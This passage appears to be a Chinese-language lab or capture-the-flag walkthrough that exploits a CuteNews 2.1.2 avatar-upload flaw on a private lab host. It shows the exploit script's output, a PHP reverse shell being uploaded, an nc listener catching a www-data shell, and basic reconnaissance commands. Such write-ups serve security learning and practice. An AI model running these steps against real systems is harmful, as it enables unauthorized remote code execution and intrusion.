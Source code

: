 -   ```shell
    ❯ ./exploit.py -l http://192.168.2.146/index.php -u test -p aaabbb -e aaa@hotmail.com 
    [+] CuteNews 2.1.2 Avatar Upload RCE exploit by ColdFusionX 
     
    [+] User exists ! Logged in Successfully
    [^] Select your PHP file -> rev.php
    
    [*] Adding Magic Byte to PHP file
    [+] Upload Successful !!
    [*] File location --> http://192.168.2.146/index.php/CuteNews/uploads/avatar_test_test.php
    
    [^] Press y/n to trigger PHP file -> y
    [*] Check listener for reverse shell
    [*] Execution Completed
    
    ```



### 获得初始shell

-   由于之前上传的图片位置，经过测试可以直接上传php文件。（查searchsploit才发现可以直接传，淦。。。太明显了居然都没测试

-   直接上传一个反弹shell，上传之后的目录在当前IP的`upload`文件夹内

-   ![image-20230608194355351](https://raw.githubusercontent.com/r0o983/images/main/image-20230608194355351.png)

-   本地发起监听，等待连接，成功获得初始shell

-   ```shell
    ❯ sudo nc -nvlp 1234
    listening on [any] 1234 ...
    connect to [192.168.2.128] from (UNKNOWN) [192.168.2.146] 33292
    Linux simple 3.16.0-30-generic #40~14.04.1-Ubuntu SMP Thu Jan 15 17:45:15 UTC 2015 i686 i686 i686 GNU/Linux
     07:44:25 up  3:12,  0 users,  load average: 0.00, 0.01, 0.05
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    /bin/sh: 0: can't access tty; job control turned off
    $ whoami
    www-data
    $ ip a
    1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default 
        link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
        inet 127.0.0.1/8 scope host lo
           valid_lft forever preferred_lft forever
        inet6 ::1/128 scope host 
           valid_lft forever preferred_lft forever
    2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
        link/ether 00:0c:29:76:48:0c brd ff:ff:ff:ff:ff:ff
        inet 192.168.229.129/24 brd 192.168.229.255 scope global eth0
           valid_lft forever preferred_lft forever
        inet6 fe80::20c:29ff:fe76:480c/64 scope link 
           valid_lft forever preferred_lft forever
    3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
        link/ether 00:0c:29:76:48:16 brd ff:ff:ff:ff:ff:ff
        inet 192.168.2.146/24 brd 192.168.2.255 scope global eth1
           valid_lft forever preferred_lft forever
        inet6 fe80::20c:29ff:fe76:4816/64 scope link 
           valid_lft forever preferred_lft forever
    $ uname -a 
    Linux simple 3.16.0-30-generic #40~14.04.1-Ubuntu SMP Thu Jan 15 17:45:15 UTC 2015 i686 i686 i686 GNU/Linux
    $ 
    ```
